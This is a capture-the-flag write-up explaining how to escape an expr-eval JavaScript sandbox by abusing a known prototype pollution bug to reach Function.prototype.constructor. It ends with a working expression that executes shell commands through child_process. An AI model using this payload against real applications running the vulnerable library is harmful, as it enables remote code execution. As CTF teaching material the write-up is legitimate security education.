 Thus, this is a JavaScript sandbox challenge and the goal is RCE.

### Solution

The server uses the latest of `expr-eval`, so is this challenge a 0-day RCE?

No.

You can find [this open issue](https://github.com/silentmatt/expr-eval/issues/266) from the repository in GitHub. According to this, the latest version (published to npm) has a vulnerability although it was already patched on the latest commit. The vulnerability is Prototype Pollution:

- https://github.com/silentmatt/expr-eval/pull/252

So, what you should do is "Prototype Pollution to RCE"[^babybox-1].

[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.

For this type of JavaScript sandbox challenges, it's often important to somehow obtain `eval` or `Function.prototype.constructor` to RCE.

In REPL of Node.js, I tried many things and found the following useful behavior:
```javascript
> Object.getPrototypeOf(toString) === Function.prototype
true
> Object.getOwnPropertyDescriptor(Object.getPrototypeOf(toString), "constructor")
{
  value: [Function: Function],
  writable: true,
  enumerable: false,
  configurable: true
}
> Object.getOwnPropertyDescriptor(Object.getPrototypeOf(toString), "constructor").value === Function.prototype.constructor
true
> value
Uncaught ReferenceError: value is not defined
> Object.assign(__proto__, Object.getOwnPropertyDescriptor(Object.getPrototypeOf(toString), "constructor"))
{
  value: [Function: Function],
  writable: true,
  enumerable: false,
  configurable: true
}
> value
[Function: Function]
> value("console.log('polluted!!')")()
polluted!!
undefined
```

The code is polluting `value` to `Function.prototype.constructor`. Finally, my `expr` is:
```javascript
o = constructor;
o.assign(__proto__, o.getOwnPropertyDescriptor(o.getPrototypeOf(toString), "constructor"));
f = value("return global.process.mainModule.constructor._load(`child_process`).execSync(`id`).toString()");
f()
```


[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br />ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br />E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br />ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell